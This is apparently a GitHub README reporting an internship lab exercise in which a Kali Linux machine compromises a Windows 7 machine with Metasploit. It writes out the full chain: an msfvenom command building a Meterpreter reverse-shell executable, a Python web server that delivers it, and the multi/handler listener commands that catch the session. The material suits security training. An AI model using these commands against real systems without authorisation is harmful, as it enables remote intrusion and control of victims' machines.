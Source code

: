 # ACMEGRADE Internship Final Assessment
## Hack into Windows Machine using Metasploit

This repository contains the final project assessment report from the **Acmegrade Internship, May 2024**. The project successfully demonstrated a controlled penetration test scenario to exploit a vulnerable Windows 7 machine using the *Metasploit Framework*.

## 🎯 Project Aim

The primary objective of this project was to gain remote access to a **Windows 7** machine (victim) from a **Kali Linux** machine (attacker) by leveraging the **Metasploit Framework** and a **Meterpreter** payload.

## 🛠️ Tools and Technologies Used

| Category | Tool/Technology | Role in Project |
| :--- | :--- | :--- |
| **Attacker OS** | Kali Linux | The penetration testing machine. |
| **Target OS** | Windows 7 | The victim machine that was compromised. |
| **Exploitation** | Metasploit Framework | Used to set up the listener (`multi/handler`) and manage the remote session. |
| **Payload Generation** | `msfvenom` | Used to generate the custom, malicious executable (`venom.exe`). |
| **Delivery Mechanism** | Python `http.server` | Used to quickly host and transfer the payload (`venom.exe`) to the target machine over port `8080`. |

## ⚙️ Execution Summary (Procedure)

### Step 1: Information Gathering

The IP addresses of both machines were identified:

* **Attacker IP (Kali Linux):** `35.35.35.4`
    * *Command:* `ifconfig eth0`
* **Victim IP (Windows 7):** `35.35.35.8`
    * *Command:* `ipconfig`

### Step 2: Weaponization

The **`msfvenom`** command was used to generate the payload:

```bash
msfvenom -p windows/meterpreter/reverse_tcp --platform windows -a x86 LHOST=35.35.35.4 LPORT=3535 -f exe -o venom.exe
```

* **Payload:** `windows/meterpreter/reverse_tcp`. This payload creates a connection from the victim back to the attacker.

* **LHOST:** Attacker IP address (`35.35.35.4`).

* **LPORT:** Port for the reverse connection (`3535`).

* **Output:** `venom.exe`


### Step 3: Delivery

1. A Python web server was hosted on the attacker (Kali Linux) machine:

```bash
python -m http.server 8080
```

2. The target (Windows 7) accessed `http://35.35.35.4:8080` and downloaded the `venom.exe` payload.


### Step 4: Exploitation

1. A listener was started on the Kali machine using `msfconsole`:

```bash
msfconsole
use multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST 35.35.35.4
set LPORT 3535
run
```

2. The `venom.exe` payload was executed on the Windows 7 target machine.

3. Upon execution, a **Meterpreter session** was successfully opened on the Kali machine.


The target was successfully compromised , allowing post-exploitation commands like `sysinfo` and `ls` to be run on the victim system.

## ✅ Conclusion

The project successfully demonstrated the process of exploiting a vulnerable Windows 7 machine using a Meterpreter payload generated by `msfvenom`. Remote access was gained and controlled through the Metasploit Framework, validating the effectiveness of the penetration testing tools and techniques used.

---

#### Submitted by: Mohammed Abdul Raqeeb  
#### Date: `10-08-2024`

